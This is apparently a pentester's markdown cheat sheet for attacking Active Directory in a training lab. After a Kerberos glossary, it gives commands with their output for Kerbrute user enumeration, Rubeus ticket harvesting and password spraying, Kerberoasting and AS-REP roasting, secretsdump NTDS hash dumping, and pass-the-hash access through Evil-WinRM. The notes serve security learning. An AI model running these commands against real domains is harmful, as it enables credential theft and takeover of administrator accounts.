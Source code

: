 # Active Directory

## Kerberos

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

Common Terminology -  

Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### Enumeration w Kerbrute 

You need to add the DNS domain name with the machine IP to /etc/hosts `10.10.253.78  CONTROLLER.local`

1. Link: (Kerbrute GitHub)[https://github.com/ropnop/kerbrute/releases]
2. rename kerbrute_linux_amd64 to kerbrute
3. make it executable `chmod +x kerbrute`

### Enumerate Users w Kerbrute

1. You need a wordlist for Users -> (User.txt)[https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt]
2. 
```console
$ ./kerbrute userenum --dc 10.10.227.157 -d spookysec.local userlist.txt

Version: v1.0.3 (9dad6e1) - 03/12/22 - Ronnie Flathers @ropnop

2022/03/12 12:12:10 >  Using KDC(s):
2022/03/12 12:12:10 >   10.10.227.157:88

2022/03/12 12:12:11 >  [+] VALID USERNAME:       james@spookysec.local
2022/03/12 12:12:12 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       James@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       robin@spookysec.local
2022/03/12 12:12:18 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/03/12 12:12:20 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/12 12:12:26 >  [+] VALID USERNAME:       backup@spookysec.local
2022/03/12 12:12:28 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/03/12 12:12:45 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/03/12 12:12:51 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/03/12 12:13:25 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/03/12 12:14:36 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/03/12 12:14:59 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/03/12 12:16:09 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/03/12 12:16:32 >  [+] VALID USERNAME:       ori@spookysec.local
2022/03/12 12:17:16 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2022/03/12 12:19:04 >  Done! Tested 73317 usernames (16 valid) in 413.056 seconds

```

### Harvesting/ Bruteforce Tickets w Rubeus

**Harvesting:**
You have to run it on attacker machine!
Link: (Rubeus GitHub)[https://github.com/GhostPack/Rubeus]

```console
$ Rubeus.exe harvest /interval:30

 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
**Bruteforce**
Add the domain controller to windows hosts file `echo 10.10.253.78 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

```console
$ Rubeus.exe brute /password:Password1 /noticket

- This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

### Kerberoasting w Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

**Method1: Rubeus**
```console
$ Rubeus.exe kerberoast 

- This will dump the Kerberos hash of any kerberoastable users

```

Copy the hash to your machine and crack it with hashcat

```console
$ hashcat -m 13100 -a 0 hash.txt wordlist.txt
```

**Method2: Impacket**

```console
$ cd /usr/share/doc/python3-impacket/examples/

$ ./GetNPUsers.py -no-pass -dc-ip 10.10.227.157 spookysec.local/svc-admin                                                                
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9edf52350a4fa9634c1b0b8e88f180a$c4a770ce5ed7bfd6a853d0b16e279ad198530c0961bc03ebdb06cb22d65bef73422d803022e76893f27a2002130ceb7ad27ddbef1d13e878e8d41c40cdd4a3535af63f9c2de2a906873a89f3b73283d2df3d58736540ea611af315beb84c9ec36b3120e03e67c96b993c47467cfb727deb94778558a6b5b937c8f64b063114edbf146607828f969198eb3cbf88fa2b0a761ae2e6e12b5a579ec8a13b7543fd8c6b06eb1ed8e72d51c1e3d65f1aafd635e81dd0660aa09043918f7382eadb1725516872a8c4bdcdb6279a501efdb84cb37176ea95d23783f9a481e0c028581186ce6d7a96aac32ab8152a7317c1d278935ebc

$ hashcat -m 18200 -a 0 hash.txt passwordlist.txt
```


## Domain Privilege Escalation /w secretsdump.py

You need creds for that:

```console 
$ sudo ./secretsdump.py -dc-ip 10.10.227.157 -target-ip 10.10.227.157 backup@spookysec.local                                              
[sudo] password for kantwood:                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                      
                                                                                                                                                                                              
Password:                                                                                                                                                                                     
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                 
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::                                                                                                               
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
```

NTLM hash: 0e0363213e37b94221497260b0bcb4fc

Use Evil-WinRM to connect with that hash:
```console
$ evil-winrm -i 10.10.227.157 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc                                                                                       
                                                                                                                                                                                              
Evil-WinRM shell v3.3                                                                                                                                                                         
                                                                                                                                                                                              
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                       
                                                                                                                                                                                              
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                                                               
Info: Establishing connection to remote endpoint                                               
                                                                                               
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
